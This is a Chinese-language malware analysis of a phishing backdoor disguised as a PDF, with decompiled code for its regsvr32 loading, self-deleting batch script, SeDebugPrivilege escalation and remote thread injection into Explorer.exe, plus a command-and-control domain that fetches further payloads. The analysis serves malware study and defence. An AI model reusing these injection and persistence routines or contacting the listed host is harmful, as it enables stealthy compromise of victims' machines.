




# PDF钓鱼后门


## 一、基本信息

```
md5:47C95F19EBD745D588BB208FF89C90BA
```


流程图（红色为对方编写的危害文件，蓝色为正常文件或被恶意利用的文件）



## 二、执行流程

exe执行后会释放HWP文件，HWP文件与MS Word的DOCX文件类似，不同之处在于它们可以包含韩文书写语言，使其成为韩国政府使用的标准文档格式之一。HWP文暂未发现威胁信息。


### 1、母文件

最开始会进入FileNameInit函数，其先会对当前读取当前文件所在的路径，然后对路径做拷贝，在路径字符串添加结束符等处理。


```c
void *__thiscall sub_4010F0(void *this)
{
  size_t FileNameStrlen; // ecx
  int Char; // edi
  size_t Length; // ecx
  int v5; // ecx
  int v7; // [esp-Ch] [ebp-164h]
  int v8; // [esp-8h] [ebp-160h]
  void *v9[5]; // [esp+10h] [ebp-148h] BYREF
  unsigned int v10; // [esp+24h] [ebp-134h]
  void *Block[5]; // [esp+28h] [ebp-130h] BYREF
  unsigned int v12; // [esp+3Ch] [ebp-11Ch]
  CHAR Filename[264]; // [esp+40h] [ebp-118h] BYREF
  int v14; // [esp+154h] [ebp-4h]

  memset(Filename, 0, 260);
  GetModuleFileNameA(0, Filename, 0x104u);
  v12 = 15;
  Block[4] = 0;
  LOBYTE(Block[0]) = 0;
  if ( Filename[0] )
    FileNameStrlen = strlen(Filename);
  else
    FileNameStrlen = 0;
  CopyStringToBlock(Block, Filename, FileNameStrlen);
  Char = FindChar((char *)Block, v7, v8, 2u);   // 对文件当前路径进行查找，直到遇到最后一个\或者/
  if ( v12 >= 0x10 )
    j__free(Block[0]);
  v10 = 15;
  v9[4] = 0;
  LOBYTE(v9[0]) = 0;
  if ( Filename[0] )
    Length = strlen(Filename);
  else
    Length = 0;
  CopyStringToBlock(v9, Filename, Length);
  v14 = 0;
  ProcessFilePathAndSize(v9, this, v5, Char);
  if ( v10 >= 0x10 )
    j__free(v9[0]);
  return this;
}
```

注意，其对文件路径的查找是从结束符开始反向遍历的


遍历完毕后FileNameInit函数执行完毕，ProcessAndCopyStringData函数

开始执行其对得到的文件路径进行复制，新开辟了一块内存，将文件路径放了进去。随后函数ProcessAndCopyStringData函数结束。

然后开始执行AllocateAndMoveMemoryAgain，暂时不知道为什么重新申请一块内存存放文件路径……


AllocateAndMoveMemoryAgain执行完毕，程序通过GetModuleFileNameA函数获取当前进程的路径，但又储存在当前之前开辟过的缓冲区下……暂未理解其意义……

随后程序进入PrepareAndExecuteDllRegistration函数，函数首先获取Kernel32的句柄，随后获取Kernel32中IsWow64Process函数的地址并执行，判断当前进程是否在 64 位环境下运行。根据获得的结果调整变量，让病毒可以在不同的操作系统中正常执行。


会获取Temp文件路径，并生成临时文件名。如果同名临时文件存在，则删除并重新创建。其随后将要执行的恶意程序之一，将会被写入这个临时文件，这个临时文件的路径会被给到lpCmdLine变量里面，后续会执行。


然后就是一些常规的文件属性处理，随后会执行regsvr32命令`regsvr32 /s "<FileName>"`，注册指定的模块，随后就是一些当前路径复制，依旧没理解复制来干什么……


随后其会使用WinExec执行regsvr32命令，目标为刚才Temp目录下创建并写入的文件，其名称为xxxx.tmp.db，命令如下`regsvr32 /s "C:\Users\myx\AppData\Local\Temp\C9DB.tmp.db`其实际上为PE文件




随后会启动释放的文件，并创建一个Bat脚本，用于清除母文件


```c
int __cdecl RunBat(void *a1, int a2, int a3, int a4, int a5, int a6)
{
  int v6; // esi
  const CHAR *v7; // eax
  HANDLE FileA; // esi
  _DWORD *v9; // eax
  LPCVOID *v10; // eax
  const CHAR *v11; // eax
  void *v13[6]; // [esp+Ch] [ebp-D4h] BYREF
  void *v14; // [esp+24h] [ebp-BCh]
  int v15; // [esp+34h] [ebp-ACh]
  unsigned int v16; // [esp+38h] [ebp-A8h]
  void *v17; // [esp+3Ch] [ebp-A4h]
  int v18; // [esp+4Ch] [ebp-94h]
  unsigned int v19; // [esp+50h] [ebp-90h]
  void *v20; // [esp+54h] [ebp-8Ch]
  int v21; // [esp+64h] [ebp-7Ch]
  unsigned int v22; // [esp+68h] [ebp-78h]
  void *v23; // [esp+6Ch] [ebp-74h]
  int v24; // [esp+7Ch] [ebp-64h]
  unsigned int v25; // [esp+80h] [ebp-60h]
  void *Block[5]; // [esp+84h] [ebp-5Ch] BYREF
  unsigned int v27; // [esp+98h] [ebp-48h]
  DWORD NumberOfBytesWritten; // [esp+9Ch] [ebp-44h] BYREF
  LPCVOID lpBuffer[4]; // [esp+A0h] [ebp-40h] BYREF
  DWORD nNumberOfBytesToWrite; // [esp+B0h] [ebp-30h]
  unsigned int v31; // [esp+B4h] [ebp-2Ch]
  LPCSTR lpFileName[5]; // [esp+B8h] [ebp-28h] BYREF
  unsigned int v33; // [esp+CCh] [ebp-14h]
  int v34; // [esp+DCh] [ebp-4h]

  v34 = 0;
  if ( a5 )
  {
    InitTempFile(Block);
    LOBYTE(v34) = 1;
    ProcessAndCopyStringData((int)".bat");
    LOBYTE(v34) = 3;
    if ( v27 >= 0x10 )
      j__free(Block[0]);
    v7 = (const CHAR *)lpFileName;
    if ( v33 >= 0x10 )
      v7 = lpFileName[0];
    FileA = CreateFileA(v7, 0x40000000u, 0, 0, 2u, 0x80u, 0);
    if ( FileA != (HANDLE)-1 )
    {
      v31 = 15;
      nNumberOfBytesToWrite = 0;
      LOBYTE(lpBuffer[0]) = 0;
      LOBYTE(v34) = 4;
      CreateRegsvr32CommandLineAndExecute(v13, ":Repeat1\r\ndel \"", &a1);
      LOBYTE(v34) = 5;
      ProcessAndCopyStringData((int)"\"\r\nif exist \"");
      LOBYTE(v34) = 6;
      AllocateAndMoveMemoryAgain((int)&a1);
      LOBYTE(v34) = 7;
      ProcessAndCopyStringData((int)"\" goto Repeat1\r\ndel \"");
      LOBYTE(v34) = 8;
      AllocateAndMoveMemoryAgain((int)lpFileName);
      LOBYTE(v34) = 9;
      v9 = ProcessAndCopyStringData((int)"\"");
      sub_4018D0(lpBuffer, v9);
      if ( v19 >= 0x10 )
        j__free(v17);
      v19 = 15;
      v18 = 0;
      LOBYTE(v17) = 0;
      if ( v25 >= 0x10 )
        j__free(v23);
      v25 = 15;
      v24 = 0;
      LOBYTE(v23) = 0;
      if ( v16 >= 0x10 )
        j__free(v14);
      v16 = 15;
      v15 = 0;
      LOBYTE(v14) = 0;
      if ( v22 >= 0x10 )
        j__free(v20);
      v22 = 15;
      v21 = 0;
      LOBYTE(v20) = 0;
      if ( v27 >= 0x10 )
        j__free(Block[0]);
      v27 = 15;
      Block[4] = 0;
      LOBYTE(Block[0]) = 0;
      if ( v13[5] >= (void *)0x10 )
        j__free(v13[0]);
      v10 = lpBuffer;
      if ( v31 >= 0x10 )
        v10 = (LPCVOID *)lpBuffer[0];
      WriteFile(FileA, v10, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0);
      CloseHandle(FileA);
      v11 = (const CHAR *)lpFileName;
      if ( v33 >= 0x10 )
        v11 = lpFileName[0];
      ShellExecuteA(0, "open", v11, 0, 0, 0);
      if ( v31 >= 0x10 )
        j__free((void *)lpBuffer[0]);
    }
    v6 = 1;
    if ( v33 >= 0x10 )
      j__free((void *)lpFileName[0]);
    v33 = 15;
    lpFileName[4] = 0;
    LOBYTE(lpFileName[0]) = 0;
  }
  else
  {
    v6 = 0;
  }
  if ( (unsigned int)a6 >= 0x10 )
    j__free(a1);
  return v6;
}
```

### 2、子木马

子病毒中存在3个导出函数，分别为DllMain、DllRegisterServer、DllUnregisterServer。

先来看DllMain


在DllMain中会使用GetModuleFileNameA函数，检索包含指定模块的文件的完全限定路径


```c
__int64 __fastcall kernelbase_GetModuleFileNameA(__int64 Dos_e_magic, __int64 a2, unsigned int a3)
{
  unsigned int nSize; // ebx
  __int64 lpFilename; // rax
  unsigned int BufferSize; // eax
  int v8; // eax
  __int64 v9; // rcx
  __int64 v11; // rcx
  unsigned int v12; // [rsp+20h] [rbp-38h]
  _WORD v13[4]; // [rsp+28h] [rbp-30h] BYREF
  __int64 v14; // [rsp+30h] [rbp-28h]
  _WORD v15[4]; // [rsp+38h] [rbp-20h] BYREF
  __int64 v16; // [rsp+40h] [rbp-18h]

  nSize = a3;
  if ( a3 > 0x7FFF )
  {
    nSize = 0x7FFF;
  }
  else if ( !a3 )
  {
    v11 = 3221225507LL;
LABEL_15:
    ((void (__fastcall *)(__int64))unk_7FFBF7AD08F0)(v11);
    return 0LL;
  }
  lpFilename = ((__int64 (__fastcall *)(void *, _QWORD, _QWORD))ntdll_RtlAllocateHeap)(
                 NtCurrentPeb()->ProcessHeap,
                 (unsigned int)dword_7FFBF7CFBEA0,
                 (unsigned __int16)(2 * nSize));
  v14 = lpFilename;
  if ( !lpFilename )
  {
    v11 = 3221225495LL;
    goto LABEL_15;
  }
  v13[1] = 2 * nSize;
  BufferSize = ((__int64 (__fastcall *)(__int64, __int64, _QWORD))kernelbase_GetModuleFileNameW)(
                 Dos_e_magic,
                 lpFilename,
                 nSize);
  v12 = BufferSize;
  if ( BufferSize )
  {
    v13[0] = 2 * BufferSize;
    v16 = a2;
    v15[1] = nSize;
    v8 = ((__int64 (__fastcall *)(_WORD *, _WORD *, _QWORD))unk_7FFBFB95F1C0)(v15, v13, 0LL);
    if ( v8 < 0 )
    {
      if ( v8 == -2147483643 )
      {
        v12 = nSize;
        *(_BYTE *)(nSize - 1 + a2) = 0;
        v9 = 3221225507LL;
      }
      else
      {
        v12 = 0;
        v9 = (unsigned int)v8;
      }
      ((void (__fastcall *)(__int64))unk_7FFBF7AD08F0)(v9);
    }
    else
    {
      v12 = v15[0];
      *(_BYTE *)(v15[0] + a2) = 0;
    }
  }
  ((void (__fastcall *)(void *, _QWORD, __int64))ntdll_RtlFreeHeap)(NtCurrentPeb()->ProcessHeap, 0LL, v14);
  return v12;
}
```

DllMain执行完毕，随后开始执行DllRegisterServer


对其进行分析，可以看到先在C:\Users\当前用户\AppData\Roaming\Microsoft\Windows\Defender下创建了一个AutoUpdate.dll


随后，程序会进行提权与远程线程注入


```c
__int64 __fastcall sub_7FFBE8EA2680(void *Src, int a2, void **a3, void **a4)
{
  size_t v6; // r13
  unsigned int v8; // r15d
  __int64 v9; // rax
  void *v10; // r14
  void *v11; // rax
  void *v12; // rbx
  HANDLE v13; // rax
  __int64 v14; // rax
  unsigned int v16; // [rsp+30h] [rbp-49h]
  void *v17[2]; // [rsp+38h] [rbp-41h] BYREF
  __int64 v18; // [rsp+48h] [rbp-31h]
  __int64 v19; // [rsp+50h] [rbp-29h]
  __int64 v20; // [rsp+58h] [rbp-21h]
  HANDLE TokenHandle[3]; // [rsp+60h] [rbp-19h] BYREF
  struct _TOKEN_PRIVILEGES Luid; // [rsp+78h] [rbp-1h] BYREF

  v20 = -2LL;
  v6 = a2;
  TokenHandle[1] = a3;
  TokenHandle[2] = a4;
  v8 = 0;
  *(_QWORD *)&Luid.PrivilegeCount = 0LL;
  *(_QWORD *)&Luid.Privileges[0].Luid.HighPart = 0LL;
  TokenHandle[0] = 0LL;
  v19 = 15LL;
  v18 = 0LL;
  LOBYTE(v17[0]) = 0;
  sub_7FFBE8EA17E0(v17, a4, 0LL, 0xFFFFFFFFFFFFFFFFuLL);
  v16 = Func_CreateToolhelp32Snapshot((__int64)v17);
  if ( v16 )
  {
    v9 = kernel32_GetProcessHeap();
    v10 = (void *)ntdll_RtlAllocateHeap(v9, 0LL, v6);
    memmove(v10, Src, v6);
    if ( v10 )
    {
      v11 = (void *)kernel32_GetCurrentProcess();
      if ( OpenProcessToken(v11, 0x28u, TokenHandle) )
      {
        Luid.PrivilegeCount = 1;
        Luid.Privileges[0].Attributes = 2;
        if ( LookupPrivilegeValueA(0LL, "SeDebugPrivilege", &Luid.Privileges[0].Luid) )
          AdjustTokenPrivileges(TokenHandle[0], 0, &Luid, 0, 0LL, 0LL);
        kernel32_CloseHandle(TokenHandle[0]);
      }
      v12 = (void *)Kernel32_OpenProcess(1082LL, 0LL, v16);
      if ( v12 )
      {
        v19 = 15LL;
        v18 = 0LL;
        LOBYTE(v17[0]) = 0;
        sub_7FFBE8EA17E0(v17, a3, 0LL, 0xFFFFFFFFFFFFFFFFuLL);
        v13 = Func_CreateRemoteThread(v12, v10, (unsigned int)v6, (__int64)v17);
        if ( v13 )
        {
          kernel32_WaitForSingleObject(v13, 0xFFFFFFFFLL);
          v8 = 1;
        }
        kernel32_CloseHandle(v12);
      }
      v14 = kernel32_GetProcessHeap();
      kernel32_HeapFree(v14, 0LL, v10);
    }
  }
  if ( (unsigned __int64)a3[3] >= 0x10 )
    j_free(*a3);
  a3[3] = (void *)15;
  a3[2] = 0LL;
  *(_BYTE *)a3 = 0;
  if ( (unsigned __int64)a4[3] >= 0x10 )
    j_free(*a4);
  a4[3] = (void *)15;
  a4[2] = 0LL;
  *(_BYTE *)a4 = 0;
  return v8;
}
```

先使用CreateToolhelp32Snapshot创建进程快照，找到Explorer.exe进程


随后用LookupPrivilegeValueA与AdjustTokenPrivileges进行提权，提权至SeDebugPrivilege


最后对Explorer.exe进行远程线程注入



```c
HANDLE __fastcall Func_CreateRemoteThread(HANDLE hProcess, LPCVOID lpBuffer, SIZE_T dwSize, void **a4)
{
  void **v4; // rbx
  SIZE_T v5; // r12
  HANDLE v8; // rsi
  unsigned int v9; // eax
  __int64 v10; // r13
  char *v11; // rax
  char *v12; // r12
  SIZE_T nSize; // [rsp+40h] [rbp-88h]
  void *v15[5]; // [rsp+48h] [rbp-80h] BYREF
  void **v16; // [rsp+70h] [rbp-58h]
  DWORD ThreadId; // [rsp+78h] [rbp-50h] BYREF

  v15[4] = (void *)-2LL;
  v4 = a4;
  v5 = (unsigned int)dwSize;
  v16 = a4;
  v8 = 0LL;
  ThreadId = 0;
  try
  {
    if ( hProcess )
    {
      if ( lpBuffer )
      {
        if ( (_DWORD)dwSize )
        {
          v15[3] = (void *)15;
          v15[2] = 0LL;
          LOBYTE(v15[0]) = 0;
          sub_7FFBE8EA17E0(v15, a4, 0LL, 0xFFFFFFFFFFFFFFFFuLL);
          v9 = sub_7FFBE8EA2910(lpBuffer, v15);
          v10 = v9;
          if ( v9 )
          {
            nSize = v5;
            v11 = (char *)VirtualAllocEx(hProcess, 0LL, (unsigned int)v5, 0x3000u, 0x40u);
            v12 = v11;
            if ( v11 )
            {
              if ( WriteProcessMemory(hProcess, v11, lpBuffer, nSize, 0LL) )
                v8 = CreateRemoteThread(
                       hProcess,
                       0LL,
                       0x100000uLL,
                       (LPTHREAD_START_ROUTINE)&v12[v10],
                       0LL,
                       0,
                       &ThreadId);
            }
          }
        }
      }
    }
  }
  catch ( ... )
  {
    v8 = 0LL;
    v4 = v16;
  }
  if ( (unsigned __int64)v4[3] >= 0x10 )
    j_free(*v4);
  v4[3] = (void *)15;
  v4[2] = 0LL;
  *(_BYTE *)v4 = 0;
  return v8;
}
```

至此第二阶段结束

### 3、ShellCode

找到远程线程启动的位置

### 

Shellcode会在进程中申请一块空间，用来加载攻击载荷，并释放一个Bat,对之前的子木马进行清除


ShellCode会在最后的Call RBX执行攻击载荷的OEP

可以Dump下来


然后对Dump的内存进行修复，主要步骤是修复RawSize和RawAddress,因为被展开到内存后，PE文件的对齐粒度与地址都发生了变化。

修复完毕后，通过IDA分析Dump文件

其先会创建互斥体，随后执行载荷


其会链接到一个网址，字符串被加密了……，解出来应该是suzuki.datastore.pe.hu

会下载一个文件


下载完毕后进行一些操作，推测和流量相关……不太了解流量没有分析出来……

随后会将下载的文件删除

然后会执行不同的操作，创建并执行DLL文件、EXE、CMD等

## 三、溯源





可能为朝鲜常用
